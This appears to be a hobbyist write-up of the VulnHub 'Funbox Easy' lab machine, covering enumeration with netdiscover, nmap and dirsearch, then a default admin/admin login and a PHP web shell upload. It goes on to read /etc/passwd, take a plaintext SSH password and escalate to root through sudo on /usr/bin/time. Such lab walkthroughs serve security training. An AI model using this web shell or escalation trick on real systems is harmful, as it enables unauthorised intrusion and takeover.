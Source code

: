 ```yaml
---
title: WRITE-UP FUNBOX EASY
date: 2024-07-23 14:59:59 +0700
categories: [write up, vulnhub, red team, oscp]
tags: [vulnhub]     # TAG names should always be lowercase
---
```


# Write-Up funbox:  Easy
## 1. Enumeration

i used netdicover to see where is ur lab

```terminal
sudo netdiscover
```

![target](/assets/img/funbox_easy/funbox3_netdiscover.png)

target is : 192.168.137.45

i used nmap to see port open 

```terminal
sudo nmap -sC -sV -vvv -p- --min-rate=1000 192.168.137.45

```

*   sC : Enable default script to quick and safe
*   sV : Detect service
*   vvv : increase verbosity
*   p : port to scan "-p-" is all port 1-65535
*   min-rate=1000 : packets are sent < 1000s
  
![target](/assets/img/funbox_easy/funbox3_nmap.png)

I checked this website . hmm apache default . I think this site have more

![target](/assets/img/funbox_easy/funbox3_checkport80.png)

so i used dirsearch to check subfolder of this site and i used default command

```terminal
dirsearch -u http://192.168.137.45
```

much more interesting i imagine 

![alt text](/assets/img/funbox_easy/funbox3_dirsearch.png)

## 2. Post Exploitation

first, i check /admin/ and i see a login simple i wanna try bruteforce but i cann't recive anything .

![alt text](/assets/img/funbox_easy/funbox3_dir_admin.png)

second, i look /store/ and boom i see a opensource store ? but i focus on admin login

![alt text](/assets/img/funbox_easy/funbox3_dir_store.png)


yeah, after that's i had been disconnected so i was be changed ip victims is 192.168.205.5

i followed admin/store login page 
![alt text](/assets/img/funbox_easy/funbox3_adminlogin_store.png)

i try login with user is admin and password is admin andddd bummm i can login with admin account then look at page i think i can upload a simple shell with add a book .

![alt text](/assets/img/funbox_easy/funbox3_admin_book.png)


![alt text](/assets/img/funbox_easy/funbox3_upload_a_book.png)

i will try upload a simple shell to take over this site
this file is ```shell.php```

```php
<?php echo system($_GET["cmd"]);?> 

```

after uploading answer the question. How can i trigger that's file i look a file i upload i can see a link

![alt text](/assets/img/funbox_easy/funbox3_see_file_uploads.png)

it's time to take control this site. 

![alt text](/assets/img/funbox_easy/funbox3_RCE_www-data.png)

but not enough for me i wanna ```root```

i see ```  /etc/passwd ``` hope to see something

![alt text](/assets/img/funbox_easy/funbox3_usertony.png)

i see user Tony let's check ```/home/tony```
i see a file is password.txt and i can see user ssh of Tony 

![alt text](/assets/img/funbox_easy/funbox3_home_tony.png)
![alt text](/assets/img/funbox_easy/funbox3_password_ssh_tony.png)

ssh time

## 3. Privilege Escalation

![alt text](/assets/img/funbox_easy/funbox3_SUID_tony.png)

i use ``` sudo -l ``` for some tricky
 
and i see ``` usr/bin/time ``` can run with sudo and  ``` NOPASSWD ```

right now we can run to privilege escalation 

```
sudo /usr/bin/time /bin/bash
```

right now we can get a ``` root ``` 

![alt text](/assets/img/funbox_easy/funbox3_root.png)
## Bingo and thanks for reading
